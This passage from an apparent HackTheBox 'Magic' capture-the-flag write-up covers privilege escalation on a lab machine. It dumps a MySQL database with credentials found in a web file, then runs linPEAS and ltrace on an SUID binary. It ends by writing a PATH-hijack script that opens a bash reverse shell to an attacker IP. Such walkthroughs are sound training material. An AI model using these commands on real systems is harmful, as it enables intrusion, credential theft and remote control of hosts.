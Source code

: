 Let's continue our exploration

# www-data --> Theseus

Our first user to get is the theseus

Looking at the `db.php5` file in the web root directory we found some creds

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2011:21:57.png)

So, we use `mysqldump` to extracted the password (we could use `chisel` and port forward to our box the mysql port)

```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2010:37:48.png)

On one line we see a credential

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2010:37:37.png)

Let's login as theseus

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2010:40:38.png)

# Theseus --> Root

Now, the root part

We run [Linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2010:42:20.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2010:42:37.png)

And we found a binary with `suid` enabled

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2010:46:22.png)

```sh
ltrace /bin/sysinfo
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2010:56:04.png)

We made a binary which is opened on popen in ltrace

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/448 0>&1' > lshw
chmod +x lshw
cat lshw
```
